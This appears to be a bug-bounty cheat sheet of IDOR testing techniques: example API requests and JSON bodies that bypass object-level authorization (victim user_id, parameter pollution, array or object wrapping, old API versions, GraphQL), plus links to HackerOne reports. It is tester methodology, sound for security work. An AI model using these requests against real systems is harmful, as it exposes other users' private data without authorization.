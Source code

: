 -  Google Dorking/public form
```bash
search all the endpoints having ID which the search engine may have already indexed
```

-  Bruteforce Hidden HTTP  parameters
```bash
use tools like arjun , paramminer 
```

-  Bypass object level authorization Add parameter onto the endpoit if not present by defualt
```bash
GET /api_v1/messages ->200
GET /api_v1/messages?user_id=victim_uuid ->200
```

-  HTTP Parameter POllution Give mult value for same parameter
```bash
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```

-  change file type
```bash
GET /user_data/2341        -> 401
GET /user_data/2341.json   -> 200
GET /user_data/2341.xml    -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt    -> 200
```

-  json parameter pollution
```bash
{"userid":1234,"userid":2542}
```
- Wrap the ID with an array in the body
```bash
{"userid":123} ->401
{"userid":[123]} ->200
```

-  wrap the id with a json object
```bash
{"userid":123} ->401
{"userid":{"userid":123}} ->200
```

-  Test an outdata API version 
```bash
GET /v3/users_data/1234 ->401
GET /v1/users_data/1234 ->200
```

-  If the website using graphql, try to find IDOR using graphql!
```bash
GET /graphql
[...]
```
```html
GET /graphql.php?query=
[...]
```
# [Top IDOR Reports](https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPIDOR.md)
1. [IDOR to add secondary users in www.paypal.com/businessmanage/users/api/v1/users](https://hackerone.com/reports/415081) to PayPal - 694 upvotes, $10500
2. [IDOR allow access to payments data of any user](https://hackerone.com/reports/751577) to Nord Security - 337 upvotes, $0
3. [Insecure Direct Object Reference (IDOR) - Delete Campaigns  ](https://hackerone.com/reports/1969141) to HackerOne - 280 upvotes, $0